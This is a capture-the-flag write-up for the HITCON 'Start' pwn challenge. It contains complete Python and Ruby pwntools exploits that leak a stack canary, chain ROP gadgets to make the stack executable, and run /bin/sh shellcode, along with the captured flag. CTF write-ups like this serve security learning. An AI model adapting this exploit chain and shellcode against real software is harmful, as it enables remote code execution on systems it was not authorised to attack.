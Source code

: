 # Pwn - Start

> Writeup by feignix (Paras Chetal)


## Summary

### Binary: [start](start)
### Protections: Canary, NX, ASLR

### Steps:

* Leak canary
* Overwrite ret addr with ROP chain
* In the ROP chain:
  * Set global value stack_prot to 7
  * Call dl_make_stack_exec with libc_stack_end as argument to make stack executable (ref: http://radare.today/posts/defeating-baby_rop-with-radare2/ )
  * Call read again to read execve /bin/sh shellcode onto the stack
  * ret to the shellcode
* Send 'exit\n' to cause ROP chain to be executed

### [Exploit](exp.py)
```from pwn import *
context.terminal = 'terminator'
context.log_level = 'debug'

p = remote('127.0.0.1', 31338)
#gdb.attach(p)
#pause()

p.sendline('A'*24)
#pause()

p.recvuntil('A'*24)

currupted_canary = p.recv(8)
fixed_canary = '\x00' + currupted_canary[1::]

corr_y = p.recv(3)
y = corr_y + '\x00'*5

p.recvline()

p.sendline('A'*63)
o = p.recv(1024).split('\n')[1]
shellcode_addr = o+"\x00"*2

mr = p64(0x00000000004683b0)
mrr = p64(0x0000000000417b21)
prdxret = p64(0x0000000000443776)
stack_prot = p64(0x00000000006CBFE0)

payload = 'B'*24 + fixed_canary + y + prdxret + stack_prot + mr + mrr

prdiret = p64(0x00000000004005d5)
libc_stack_end = p64(0x0000000006CBF90)
dl_make_stack_exec = p64(0x0000000004768A0)

payload += prdiret + libc_stack_end + dl_make_stack_exec


nbytes = p64(27)
fdes = p64(0)
read = p64(0x000000000440300)
prsiret = p64(0x00000000004017f7)
prdiret = p64(0x00000000004005d5)

payload += prdxret + nbytes + prsiret + shellcode_addr + prdiret + p64(0) + read + shellcode_addr

p.sendline(payload)

p.sendline('exit')

binsh = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p.sendline(binsh)

p.interactive()
```

But they wanted a pwntools-ruby script (one line), so sent:
`z = Sock.new "127.0.0.1", 31338;z.sendline "A"*24;z.recvuntil "A"*24;cc = z.recv 8;fixed_canary = "\x00" + cc[1..-1];c_rbp = z.recv 3;rbp = c_rbp + "\x00"*5;z.recvline;z.sendline "A"*63;o = z.recv(1024).split[1];saddr = u64(o+"\x00"*2)+0x100;mr = p64(0x4683b0);mrr = p64(0x417b21);prdxret = p64(0x443776);sp = p64(0x6CBFE0);pd = 'B'*24 + fixed_canary + rbp + prdxret + sp + mr + mrr;prdiret = p64(0x4005d5);libc_stack_end = p64(0x6CBF90);dl_make_stack_exec = p64(0x4768A0);pd += prdiret + libc_stack_end + dl_make_stack_exec;nbytes = p64(27);fdes = p64(0);read = p64(0x440300);prsiret = p64(0x4017f7);prdiret = p64(0x4005d5);pd += prdxret + nbytes + prsiret + p64(saddr) + prdiret + p64(0) + read + p64(saddr);z.sendline pd;p z.recvline;z.sendline 'exit';binsh = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";z.sendline binsh;z.sendline "cat home/start/flag";sleep(1);print z.recv 1024;
`
and got the flag: `hitcon{thanks_for_using_pwntools-ruby:D}`